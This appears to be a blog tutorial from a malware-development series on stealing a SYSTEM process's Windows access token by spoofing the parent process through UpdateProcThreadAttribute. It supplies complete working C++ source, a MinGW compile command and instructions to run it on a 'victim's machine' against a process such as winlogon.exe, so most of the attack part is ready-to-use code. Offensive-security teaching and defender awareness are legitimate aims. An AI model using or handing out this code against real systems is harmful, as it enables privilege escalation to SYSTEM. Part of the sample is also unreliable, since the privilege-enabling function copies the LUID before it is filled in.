


\newpage
\subsection{83. malware development: persistence - part 17 - APT techniques: Token theft via UpdateProcThreadAttribute. Simple C++ example.}

﷽

Hello, cybersecurity enthusiasts and white hackers!     

{:class="img-responsive"}    

This post is the result of my own research into one of the more interesting APT techniques: token theft via UpdateProcThreadAttribute.     

In the previous [post](https://cocomelonc.github.io/tutorial/2022/09/25/token-theft-1.html) I wrote about classic token theft via `DuplicateTokenEx` and `CreateProcessWithTokenW`. Today I will describe an alternative method that works starting from Windows Vista.     

### UpdateProcThreadAttribute

In the first part of my tutorial, we just doing classic trick: enable `SE_DEBUG_PRIVILEGE`, open a token from any system process (which works even for protected processes also), duplicate the token, adjust privileges on it, and then impersonate with this token.     

Today we can use more simply trick. Microsoft implemented in Vista the ability to designate an explicit parent process when creating a new process, allowing the elevated process to remain a child of the caller.

Typically, in the UAC instance, you must issue an explicit token to the new process. If you do not supply a token, the new process will inherit from the designated parent. The only condition is that the handle to the parent process must have the `PROCESS_CREATE_PROCESS` access privilege.     

So, we just open some system process with `PROCESS_CREATE_PROCESS` access right. Then use this handle with `UpdateProcThreadAttribute`. In consequence, your process inherits a token from the system process.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

And all you need for working this is `SE_DEBUG_PRIVILEGE`.    

### technique. practical example

First of all, sometimes you must turn on `SeDebugPrivilege` in your current set of privileges:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Then, open a process whose access token you wish to steal with `PROCESS_CREATE_PROCESS` access rights:    

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

After that, use it is handle with `UpdateProcThreadAttribute`:    

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Finally, create process:     

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

So, the full source code of this logic is look like this:       

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

As you can see, the code is slightly different from the previous part. This code is just dirty PoC, for simplicity, I run `mspaint.exe`.      

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{:class="img-responsive"}    

Then, run it at the victim's machine:    

```powershell
.\hack.exe <PID>
```

{:class="img-responsive"}    

As an example, you may steal the `winlogon.exe (PID: 544)` access token:     

{:class="img-responsive"}    

{:class="img-responsive"}    

{:class="img-responsive"}    

As you can see, everything is worked perfectly!     

I hope this post least a little useful for entry level cyber security specialists (and possibly even professionals), also spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.     

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        
